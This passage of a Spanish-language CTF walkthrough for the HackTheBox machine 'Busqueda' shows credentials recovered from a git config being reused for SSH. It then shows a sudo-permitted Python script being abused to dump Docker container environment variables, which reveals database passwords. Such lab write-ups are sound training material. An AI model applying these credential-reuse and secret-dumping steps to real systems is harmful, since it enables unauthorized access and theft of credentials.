 ```bash

[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Tenemos otras credenciales: `cody:jh1usoih2bkjaspwe92` y además un subdominio: `gitea.searcher.htb`.

Sin embargo la contraseña de `cody` no nos sirve para el ssh, es solo para el subdominio que hemos encontrado. Por otro lado, si probamos la misma contraseña para `svc`, conseguimos entrar!

## Escalada de privilegios

Como siempre, comenzamos con:

```bash
sudo -l
```
```bash
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty
User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Si probamos:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```
```bash
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Al ejecutar la opción `docker-inspect` con uno de los ejemplos de la [documentación oficial](https://docs.docker.com/engine/reference/commandline/inspect/):

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' mysql_db
```
```json
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```
